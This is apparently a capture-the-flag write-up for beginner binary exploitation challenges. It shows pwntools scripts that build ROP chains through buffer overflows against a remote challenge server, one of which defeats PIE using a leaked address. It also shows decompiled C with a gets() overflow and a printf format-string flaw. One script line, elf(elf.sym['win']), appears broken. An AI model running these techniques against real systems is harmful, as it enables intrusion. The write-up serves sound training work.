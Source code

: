 ```python
from pwn import *

p = remote("0.cloud.chals.io", 10711)
context.binary = elf = ELF("/media/kali/Downloads/pwnme(1)")
# p = elf.process()
rop = ROP(elf)

rop.raw(rop.find_gadget(['ret']).address)
rop.win(0xdeadbeef)

print(rop.dump())

p.sendline(flat({0x28: rop}))
p.interactive()
```

## 5

Is this challenge we have the `PIE` activated, so we can't know the addresses before execution. But the *win address* is printed, we can calculate the random offset generated by `PIE` with the difference between the `win` address in the code object and the `win` address at the execution.

We need to read the output, parse it and get the integer from the hexadecimal string. We can use `pwntools` te recalculate all of the address with the `PIE` random offset, so we can use the same payload than the precedent challenge.

```python
from pwn import *

context.binary = elf = ELF("/media/kali/Downloads/pwnme")
c = elf.process()                               # How about reading a leak? 0x557d98b9822e
# c = remote("0.cloud.chals.io", 22287)
c.recvuntil(b'How about reading a leak? ')
elf.address = int(c.recvline().strip().decode(), 16) - elf.sym['win']
rop = ROP(elf)

c.sendline(b"a" * 40 + p64(rop.find_gadget(['pop rdi', 'ret']).address) + p64(0xdeadbeef) + p64(rop.find_gadget(['ret']).address) + p64(elf(elf.sym['win'])))
c.interactive()
```

## 6

Format string vulnerability: the last element in the stack is the address function and the C code is:

```c
undefined8 main(EVP_PKEY_CTX *param_1) {
  char buffer [24];
  code *local_10;

  init(param_1);
  local_10 = win;
  printf("How about creating a leak?");
  gets(buffer);
  printf(buffer);
  vuln();
  return 0;
}
```
